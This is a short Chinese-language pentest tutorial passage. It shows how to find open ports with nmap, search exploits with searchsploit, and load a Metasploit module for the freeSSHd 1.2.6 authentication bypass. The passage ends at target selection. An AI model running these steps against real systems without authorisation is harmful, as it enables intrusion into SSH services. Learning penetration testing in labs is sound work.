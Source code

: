 首先，我们需要借助nmap等工具确定目标机器上有哪些端口是开放的。一旦找到开放的端口（假设是22号端口，即SSH端口），我们就可以使用以下代码（从kali database 中查找所有的漏洞）：

```bash
searchsploit ssh 
```

![](../../img/1_AaTz4ZArA3hPEVmz4tdlzg.webp)

这里我们选择 “free**SSH**d 1.2.6 — Authentication Bypass (Metasploit)”漏洞。

```bash
msfconsole //打开Metasploit框架
use exploit/windows/ssh/fresshd_authbypass
show targets  //选择目标
```

